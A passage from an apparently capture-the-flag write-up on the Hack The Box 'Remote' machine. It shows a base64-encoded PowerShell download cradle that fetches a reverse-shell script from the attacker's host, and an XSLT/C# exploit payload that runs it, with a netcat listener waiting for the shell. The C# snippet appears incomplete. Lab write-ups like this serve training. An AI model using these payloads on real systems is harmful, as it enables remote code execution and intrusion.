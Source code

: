 I changed the file name to r2.ps1 to make it easy to use.  To get the exploit to call this file we will need to change the script to call back and grab the reverse shell.  To make sure there is no issues being sent over http it is best to base64 encode the arguments string.  To do with I will open powershell on Kali and create the encoded string.

```bash
root@HTBKali:~/HTB/Remote# pwsh
PowerShell 7.0.0
Copyright (c) Microsoft Corporation. All rights reserved.

https://aka.ms/powershell
Type 'help' to get help.

PS /root/HTB/Remote> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("IEX(New-Object Net.WebClient).downloadString('http://10.10.17.215:9000/r2.ps1')"))                  
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANwAuADIAMQA1ADoAOQAwADAAMAAvAHIAMgAuAHAAcwAxACcAKQA=
```

Then I updated the exploit script to be as follows:
```python
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "-encodedcommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANwAuADIAMQA1ADoAOQAwADAAMAAvAHIAMgAuAHAAcwAxACcAKQA="
 proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';
 ```
Before we run the exploit I opened a webserver on 9000 and a nc listener on 9003.

![alt text](https://github.com/vipertooth/HTB-Remote/blob/master/resources/lowpriv-shell.png)
